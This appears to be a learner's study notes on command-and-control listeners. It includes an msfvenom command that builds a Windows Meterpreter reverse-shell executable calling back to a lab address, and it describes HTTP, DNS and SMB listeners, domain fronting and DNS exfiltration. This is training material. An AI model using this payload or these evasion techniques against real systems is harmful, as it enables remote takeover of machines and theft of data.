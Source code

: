<u>Actual</u>:
```shell-session
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.249.216 LPORT=31337 -f exe -o shell.exe
```

- After generating the `windows/meterpreter/reverse_tcp` using MSFvenom, we can transfer the payload to a target machine and execute it.
- After a moment or two, you should receive a callback from the machine.

![](/assets/img/Pasted image 20221130214407.png)

		- Note that the assumption in here is that you already have an Agent on the compromised machine and has exploited it.

### Listener Types and Specific usage
- As previously mentioned, standard reverse shell listeners are not the only ones that exist; there are many varieties that use many different protocols; however, there are a few common ones that we will cover like:

#### 1. Standard Listener:
- Often communicate directly via TCP/UDP.
- Sends commands in `cleartext`.

		- Basic connection.

#### 2. HTTP/HTTPS Listeners:
- These often fron as some sort of Webb server and use techniques like `Domain Fronting` or `Malleable C2 profiles` to mask a C2 server.
- When specifically communicate over HTTPs, it's ***less likely for communications to be blocked by NGFW***.

		- Remember that as a user and you have your own firewall setup, you can normally browse the internet whether your browser is asking request via HTTP or HTTPS and there would be no problem.
		- This protocol is being exploited by using the same protocol to hide the C2 interaction with the agent from the compromised device.

#### 3. DNS Listener:
- **DNS Listeners** are a popular technique specifically used in the `exfiltration stage` where additional infrastructure is normally required to be set up.
- A `domain name` must be purchased and registered and a public NS server must be configured.
- It is possible to set up DNS C2 ops in metasploit with the help of additional tools. Here's the in-depth tutorial: https://2017.zeronights.org/wp-content/uploads/materials/ZN17_SintsovAndreyanov_MeterpreterReverseDNS.pdf

		- It is used during the exfiltration stage because it looks like a more legitimate connection than that of Standard Listeners.
		- Also, in comparison to the previous Listener types, it is a 'trickle' but the previous ones are burst. In short, DNS listeners are more quiet (i think?)

#### 4. SMB Listener
- Communication via SMB named pipes is a popular method of choice especially in dealing with `restricted network`.
- It often enables more `flexible pivoting with multiple devices talking to each other` and only one device reaching back out over a more common protocol like HTTP/HTTPS.
